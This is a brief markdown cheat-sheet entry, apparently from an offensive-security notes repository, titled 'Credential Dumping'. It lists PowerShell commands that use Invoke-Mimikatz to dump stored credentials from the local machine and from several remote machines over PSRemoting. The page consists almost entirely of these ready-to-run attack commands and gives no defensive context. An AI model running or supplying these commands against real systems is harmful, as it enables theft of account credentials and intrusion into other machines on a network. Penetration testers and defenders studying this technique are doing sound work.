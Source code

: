 # Credential Dumping

## Invoke-Mimikatz

```powershell
# Dump on local machine
Invoke-Mimikatz -DumpCreds

# Dump credentials on multiple remote machiens through PSRemoting cmdlet Invoke-Command
Invoke-Mimikatz -DumpCreds -ComputerName @("sys1", "sys2")
```

